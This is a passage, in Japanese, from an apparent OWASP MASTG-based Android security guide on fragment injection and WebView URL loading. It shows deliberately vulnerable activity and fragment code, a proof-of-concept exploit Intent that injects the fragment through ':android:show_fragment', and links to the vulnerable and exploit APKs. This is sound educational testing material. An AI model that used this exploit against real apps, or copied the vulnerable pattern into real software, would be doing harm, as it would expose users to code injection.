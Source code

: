 参考資料
 * [owasp-mastg Testing for Fragment Injection (MSTG-PLATFORM-2) Static Analysis](https://github.com/OWASP/owasp-mastg/blob/v1.5.0/Document/0x05h-Testing-Platform-Interaction.md#static-analysis-1)

#### 脆弱なアプリと悪用の例

MainActivity.class<br>
```java
public class MainActivity extends PreferenceActivity {
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
    }
}
```

MyFragment.class<br>
```java
public class MyFragment extends Fragment {
    public void onCreate (Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
    }
    public View onCreateView(LayoutInflater inflater, ViewGroup container, Bundle savedInstanceState) {
        View v = inflater.inflate(R.layout.fragmentLayout, null);
        WebView myWebView = (WebView) wv.findViewById(R.id.webview);
        myWebView.getSettings().setJavaScriptEnabled(true);
        myWebView.loadUrl(this.getActivity().getIntent().getDataString());
        return v;
    }
}
```

この脆弱なアクティビティを悪用するには、次のコードを使用してアプリケーションを作成する。<br>
```java
Intent i = new Intent();
i.setFlags(Intent.FLAG_ACTIVITY_CLEAR_TASK);
i.setClassName("pt.claudio.insecurefragment","pt.claudio.insecurefragment.MainActivity");
i.putExtra(":android:show_fragment","pt.claudio.insecurefragment.MyFragment");
i.setData(Uri.parse("https://security.claudio.pt"));
startActivity(i);
```

[Vulnerable App](https://github.com/clviper/android-fragment-injection/raw/master/vulnerableapp.apk) と [Exploit PoC App](https://github.com/clviper/android-fragment-injection/blob/master/exploit.apk) はダウンロード可能である。<br>

参考資料
 * [owasp-mastg Testing for Fragment Injection (MSTG-PLATFORM-2) Example of Vulnerable App and Exploitation](https://github.com/OWASP/owasp-mastg/blob/v1.5.0/Document/0x05h-Testing-Platform-Interaction.md#example-of-vulnerable-app-and-exploitation)

### WebView での URL 読み込み

WebView は、Android の組み込みコンポーネントで、アプリケーション内で Web ページを開くことを可能にする。モバイルアプリに関連する脅威に加えて、WebView は一般的な Web の脅威 (例 ： XSS 、 Open Redirect など) にもアプリをさらす可能性がある。<br>
